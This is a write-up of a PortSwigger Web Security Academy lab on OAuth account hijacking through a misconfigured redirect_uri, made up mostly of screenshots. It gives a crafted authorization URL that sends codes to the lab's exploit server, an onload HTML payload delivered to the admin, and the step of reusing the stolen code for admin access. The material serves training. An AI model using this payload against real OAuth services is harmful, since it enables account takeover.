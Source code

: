 
This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: wiener:peter.

https://portswigger.net/web-security/oauth

---------------------------------------------

References: 

- https://portswigger.net/web-security/oauth

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/1.png)
![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/2.png)

---------------------------------------------

https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/3.png)

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/4.png)


https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email


https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net&response_type=code&scope=openid%20profile%20email

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/5.png)
![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/6.png)

Follow redirection:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/7.png)

Access logs:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/8.png)

Payload to open the link:
<body onload="window.open('https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net/&response_type=code&scope=openid%20profile%20email')">

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/9.png)

Deliver exploit to victim:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/10.png)

Log out, log in and replace the code with this one:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/11.png)

After the last request, you get admin access:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/12.png)

Admin panel:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/14.png)
![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/15.png)